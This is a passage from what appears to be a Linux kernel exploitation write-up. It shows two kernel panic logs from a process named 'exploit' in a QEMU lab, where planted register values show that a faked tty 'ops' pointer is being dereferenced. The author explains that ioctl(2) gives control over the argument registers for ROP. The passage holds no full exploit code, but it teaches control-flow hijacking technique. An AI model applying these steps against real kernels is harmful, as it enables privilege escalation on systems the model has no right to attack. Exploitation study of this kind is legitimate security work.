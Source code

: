 ```
[   34.459561] R10: 0000000000000042 R11: 0000000000000042 R12: 0000000042424242
[   34.460935] R13: 4343434343434343 R14: ffff94c942add000 R15: ffff94c942b04400
[   34.462239] FS:  00007f159bede540(0000) GS:ffff94c95f400000(0000) knlGS:0000000000000000
[   34.463656] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   34.465125] CR2: 00000000deadbf4f CR3: 0000000002a62000 CR4: 00000000003006f0
[   34.466574] Call Trace:
[   34.468057]  ? selinux_file_ioctl+0x130/0x220
[   34.469253]  __x64_sys_ioctl+0x7e/0xb0
[   34.470915]  do_syscall_64+0x33/0x40
[   34.471597]  entry_SYSCALL_64_after_hwframe+0x44/0xae
```

And

```
[    9.610574] BUG: unable to handle page fault for address: 00000000deadbf97
[    9.612095] #PF: supervisor read access in kernel mode
[    9.612574] #PF: error_code(0x0000) - not-present page
[    9.613322] PGD 0 P4D 0
[    9.613762] Oops: 0000 [#1] SMP NOPTI
[    9.614176] CPU: 0 PID: 80 Comm: exploit Tainted: P           O      5.12.9 #1
[    9.614493] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS ?-20191223_100556-anatol 04/01/2014
[    9.615148] RIP: 0010:tty_driver_flush_buffer+0x4/0x20
[    9.616217] Code: 84 00 00 00 00 00 48 8b 47 18 48 8b 40 50 48 85 c0 74 05 e9 9e df 91 00 b8 00 08 00 00 c3 0f 1f 84 00 00 00 00 00 48 8b 47 18 <f
[    9.618605] RSP: 0018:ffff963140157e00 EFLAGS: 00000286
[    9.619180] RAX: 00000000deadbeef RBX: ffff8a5e429955b0 RCX: 0000000000000000
[    9.619718] RDX: ffff9631401c5000 RSI: 0000000000000000 RDI: ffff8a5e42b04400
[    9.620310] RBP: ffff8a5e42b04400 R08: 0000000000000001 R09: ffff8a5e42b04668
[    9.620937] R10: 0000000000000000 R11: 000000000000014c R12: 0000000000000000
[    9.621467] R13: ffff8a5e42b04428 R14: ffff8a5e42b04404 R15: 0000000000000000
[    9.622125] FS:  00007fc9755ff540(0000) GS:ffff8a5e5f400000(0000) knlGS:0000000000000000
[    9.622740] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    9.623692] CR2: 00000000deadbf97 CR3: 0000000002a62000 CR4: 00000000003006f0
[    9.624317] Call Trace:
[    9.625617]  tty_ldisc_hangup+0x47/0x200
[    9.626277]  __tty_hangup.part.0+0x1ea/0x330
[    9.626582]  tty_release+0x123/0x430
[    9.626792]  __fput+0x87/0x230
[    9.627075]  task_work_run+0x57/0x90
[    9.627391]  exit_to_user_mode_prepare+0x114/0x120
[    9.627640]  syscall_exit_to_user_mode+0x1d/0x40
[    9.628179]  entry_SYSCALL_64_after_hwframe+0x44/0xae
```

We panic as expected, YAY.

Those are panic outputs for `...5e0` and `...4c0` as `ops`, respectively.

The first one crashes in `_tty_ioctl`, and the second one crashes in `_tty_driver_flush_buffer`.

Here you may also ask why I use `ioctl(2)` for this. The reason is that it gives us better control over the arguments (`ESI` and `RDX`), which tends to be useful when doing ROP.
